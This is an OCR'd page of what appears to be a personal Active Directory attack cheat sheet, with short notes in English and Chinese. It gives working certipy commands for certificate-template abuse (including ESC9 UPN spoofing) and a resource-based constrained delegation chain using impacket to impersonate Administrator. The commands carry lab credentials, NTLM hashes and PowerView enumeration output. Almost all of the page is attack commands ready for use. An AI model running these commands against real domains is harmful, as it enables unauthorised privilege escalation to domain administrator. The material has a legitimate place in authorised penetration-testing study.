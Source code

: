 ```
certipy req -username 'ryan.cooper@sequel.htb' -password 'NuclearMosquito3' -ca 'sequel-DC-CA' -target dc.sequel.htb -template 'UserAuthentication' -upn administrator@sequel.htb
certipy auth -pfx administrator.pfx -username administrator -domain 'SEQUEL.HTB' -dc-ip 10.10.11.202

若 Certipy 在嘗試取得 TGT 時發生 「KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)」，這是因為 KDC 上未啟動 PKInit (Public Key Cryptography for Initial Authentication)

ESC9:
Suppose management_svc@certified.htb holds GenericWrite permissions over ca_operator@certified.htb, with the goal to compromise Administrator@certiified.htbb. The ESC9 certificate template, which ca_operator@certified.htb is permitted to enroll in, is configured with the CT_FLAG_NO_SECURITY_EXTENSION flag in its msPKI-Enrollment-Flag setting

certipy account update -username management_svc@certified.htb -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn Administrator
certipy req -username ca_operator@certified.htb -hashes 'FB54D1C05E301E024800C6AD99FE9B45' -ca certified-DC01-CA -template CertifiedAuthentication -dns DC01.certified.htb
certipy auth -pfx administrator.pfx -domain certified.htb
```

#### Resource Based Constrained Delegation Attack
```
Detection:
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Where-Object { $_.ActiveDirectoryRights -like '*GenericAll*' }

Output:
AceType               : AccessAllowed
ObjectDN(to)          : CN=RESOURCEDC,OU=Domain Controllers,DC=resourced,DC=local
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-537427935-490066102-1511301751-1000
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-537427935-490066102-1511301751-1105
AccessMask            : 983551
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
Identity(from)        : resourced\L.Livingstone
```
Bloodhound showing GenericAll privileges on the Domain Controller  
![image](https://github.com/user-attachments/assets/8a75dfbe-58a3-44a6-a962-dd34daf4b465)
```
impacket-addcomputer resourced.local/l.livingstone(:password) -dc-ip 192.168.x.x -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
python3 rbcd.py -dc-ip 192.168.153.175 -t RESOURCEDC(hostname) -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.x.x

Alternate way:
impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
```